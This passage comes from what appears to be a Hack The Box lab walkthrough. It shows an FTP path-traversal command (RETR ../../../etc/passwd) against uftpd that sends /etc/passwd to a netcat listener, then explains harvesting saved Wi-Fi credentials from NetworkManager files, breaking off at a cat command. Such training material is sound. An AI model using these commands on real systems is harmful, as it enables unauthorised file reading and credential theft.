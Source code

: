 200 PORT command successful.
</code></pre>
<p>We start a netcat listener on port <code>1258</code> using the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 1258

Listening on 0.0.0.0 1258
</code></pre>
<p>Finally, in the uftpd session, we enter the following command to read the /etc/passwd file:</p>
<pre><code class="language-shell-session">RETR ../../../etc/passwd

150 Data connection opened; transfer starting.
226 Transfer complete.
</code></pre>
<p>Looking back at our netcat listener, we should see the output of the /etc/passwd file from the client device.</p>
<pre><code class="language-shell-session">Connection received on 192.168.0.60 58390
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
tcpdump:x:106:113::/nonexistent:/usr/sbin/nologin
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
srvadm:x:1001:1001::/home/srvadm:/bin/sh
</code></pre>
<hr/>
<h2>Retrieving Wi-Fi Credentials of all Connected Networks</h2>
<p>When we compromise a client device, we can attempt to extract and retrieve the saved Wi-Fi credentials stored on the system. This could provide access to additional networks, including enterprise Wi-Fi environments.</p>
<hr/>
<h3>Retrieving Wi-Fi Credentials from Linux</h3>
<p>To retrieve all saved Wi-Fi credentials for connected networks, we can check the <code>/etc/NetworkManager/system-connections/</code> directory. This folder contains configuration files named after each SSID in the format <code>SSID.nmconnection</code>.</p>
<p>For example, examining a file named <code>HTB-Corp.nmconnection</code> reveals the stored network details:</p>
<pre><code class="language-shell-session">[!bash!]$ cat /etc/NetworkManager/system-connections/HTB-Corp.nmconnection 
